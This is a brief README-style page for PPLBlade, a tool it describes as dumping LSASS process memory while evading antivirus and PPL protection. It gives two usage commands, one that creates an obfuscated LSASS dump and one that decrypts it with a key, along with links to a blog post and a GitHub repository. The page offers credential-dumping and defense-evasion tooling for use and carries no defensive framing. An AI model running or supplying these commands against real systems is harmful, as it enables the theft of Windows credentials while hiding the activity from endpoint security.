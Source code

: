 # PPLBlade

## Dump LSASS without AV detection with PPLBlade

## Link: https://tacticaladversary.io/adversary-tactics/bypass-defender-and-ppl-protection-to-dump-lsass/?s=08

## Github repo: https://github.com/tastypepperoni/PPLBlade

### Example Usage:

#### 1) Dump obfuscated dump file

    PPLBlade.exe --mode dothatlsassthing --obfuscate 
    
#### 2) Deobfuscate dump file

    PPLBlade.exe --mode descrypt --dumpname PPLBlade.dmp --key PPLBlade 

### For more details, consult the github repository for more.
